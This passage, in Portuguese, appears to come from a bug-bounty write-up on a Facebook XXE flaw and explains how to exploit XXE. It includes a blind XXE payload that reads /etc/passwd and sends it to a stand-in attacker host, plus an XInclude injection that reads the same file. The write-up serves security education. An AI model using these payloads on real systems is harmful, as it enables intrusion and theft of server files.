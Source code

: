 A princípio o facebook não conseguiu reproduzir a falha, por isto Mohamed quase não recebeu o bounty, mas após algumas trocas de emails a rede social encontrou e corrigiu a falha.

O pesquisador recebeu $6300 por esta falha, o valor foi menor que o de 2013 pois lá era possível escalar a falha para um Remote Code Execution.

### Como explorar:

Não há muitos segredos na exploração desta falha, esteja atento a arquivos XML que podem ser manipulados, caso os encontre e o valor seja refletido tente definir entitys externas para leitura de arquivos ou caso não seja refletido tente injetar uma entity que faça referência a um servidor o qual você pode analisar a interação.

Também é muito usual em casos do tipo blind, o atacante passar dados na forma de parâmetro para o servidor no qual ele tem controle isto é feito usando códigos xml parecidos com este:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Neste caso o hacker criou uma variável chamada eval, a qual declarava dinamicamente uma entity, esta fazia uma request para um servidor sob seu controle passando no parâmetro "x" o valor do arquivo "/etc/passwd".

Ataques XXE também podem ser executados quando o atacante não tem total domínio do arquivo, há sites que recebem apenas partes dele, os analisam e completam no back-end; para explorar este tipo de falha existe o XInclude, o qual é um mecanismo para inclusão de itens no xml como o entity, entretanto este é usado no corpo do arquivo e não dentro da tag DOCTYPE, quando se usa esta ferramente é gerado no final um arquivo contendo toda a inclusão.

Este é um exemplo de arquivo XML com XInclude:
```xml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p><xi:include href="licença.txt" parse="text"/></p>
   </body>
</html>
```

No final, caso o arquivo licença.txt contivesse esta string: "Este documento é publicado sob a Licença de Documentação Livre da GNU" seria gerado um xml com este conteúdo:

```xml
<?xml version="1.0"?>
<html xmlns="http://www.w3.org/1999/xhtml"
      xmlns:xi="http://www.w3.org/2001/XInclude">
   <head>...</head>
   <body>
      ...
      <p>Este documento é publicado sob a Licença de Documentação Livre da GNU</p>
   </body>
</html>
```

Uma injeção maliciosa seria parecida com esta:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
